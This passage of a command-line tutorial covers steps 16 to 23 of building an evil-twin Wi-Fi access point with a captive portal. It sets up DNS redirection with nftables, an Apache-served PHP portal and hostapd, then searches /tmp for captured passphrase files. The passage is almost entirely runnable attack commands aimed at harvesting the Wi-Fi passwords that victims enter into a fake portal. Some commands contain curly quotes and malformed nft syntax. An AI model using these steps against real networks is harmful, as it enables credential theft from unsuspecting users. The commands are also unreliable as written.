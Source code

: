 ### 16. Add required rules:

```bash
sudo nft add table ip nat
sudo nft ‘add chain ip nat PREROUTING { type nat hook prerouting priority dstnat; policy; accept; }’
sudo nft add rule ip nat PREROUTING iifname “wlan0” udp dport 53 counter redirect to :53
```

### 17. Modify Apache configuration:

```bash
sudo mousepad /etc/apache2/sites-enabled/000-default.conf
```

### 18. Enable necessary modules and restart Apache:

```bash
sudo a2enmod rewrite && sudo a2enmod alias
sudo systemctl restart apache2
```

### 19. Check the portal by navigating to:

```bash
Firefox 127.0.0.1/portal/index.php
```

### 20. Install hostapd and edit the configuration:

```bash
sudo apt install hostapd && mousepad hostapd.conf
```

### 21. Create and run a 802.11n AP:

```bash
sudo hostapd -B hostapd.conf
```

### 22. Monitor the logs in two separate terminals:

- Terminal 1:

```bash
sudo tail -f /var/log/syslog | grep -E ‘(dnsmasq|hostapd)’
```

- Terminal 2:

```bash
sudo tail -f /var/log/apache2/access.log
```

### 23. Search for passphrase files in `/tmp/`:

```bash
sudo find /tmp/ -iname passphrase.txt
```
